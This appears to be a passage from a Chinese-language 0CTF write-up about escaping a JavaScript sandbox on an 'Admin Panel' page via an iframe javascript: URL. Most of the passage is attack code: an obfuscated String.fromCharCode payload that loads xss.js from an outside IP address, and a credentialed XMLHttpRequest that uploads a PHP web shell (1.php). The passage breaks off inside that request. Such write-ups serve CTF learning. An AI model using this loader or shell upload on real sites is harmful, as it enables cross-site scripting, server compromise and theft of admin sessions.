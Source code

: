 ![0ctf](https://moxiaoxi.info/img/post/0ctf/0ctf.png)

发现iframe的伪协议可以绕过，调用被禁用的函数。（还没搞懂为啥可以绕过，有知道的，求解答一波～）

然后，就想着通过iframe的伪协议调用一个外部的js，外部的js执行上传shell的操作。

本地测试一波

```html
<!doctype html>
<head>
<title>Admin Panel</title>
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
</head>

<h1>Hello <iframe src='javascript:eval(String.fromCharCode(118, 97, 114, 32, 115, 115, 115, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 115, 99, 114, 105, 112, 116, 34, 41, 59, 115, 115, 115, 46, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 54, 46, 49, 52, 46, 54, 49, 46, 49, 56, 53, 47, 102, 105, 108, 101, 115, 47, 120, 115, 115, 46, 106, 115, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 115, 115, 41, 59))'></iframe></h1>


<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```

```js
String.fromCharCode(118, 97, 114, 32, 115, 115, 115, 61, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 115, 99, 114, 105, 112, 116, 34, 41, 59, 115, 115, 115, 46, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 49, 48, 54, 46, 49, 52, 46, 54, 49, 46, 49, 56, 53, 47, 102, 105, 108, 101, 115, 47, 120, 115, 115, 46, 106, 115, 34, 59, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 115, 115, 115, 41, 59)
var sss=document.createElement("script");sss.src="http://106.14.61.185/files/xss.js";document.body.appendChild(sss);
```

xss.js就是实现一个上传逻辑

```js
function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://admin.government.vip:8000/upload", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------32762167253918");
        xhr.withCredentials = true;
        var body = "-----------------------------32762167253918\r\n" +
          "Content-Disposition: form-data; name=\"file\"; filename=\"1.php\"\r\n" +
          "Content-Type: application/octet-stream\r\n" +
```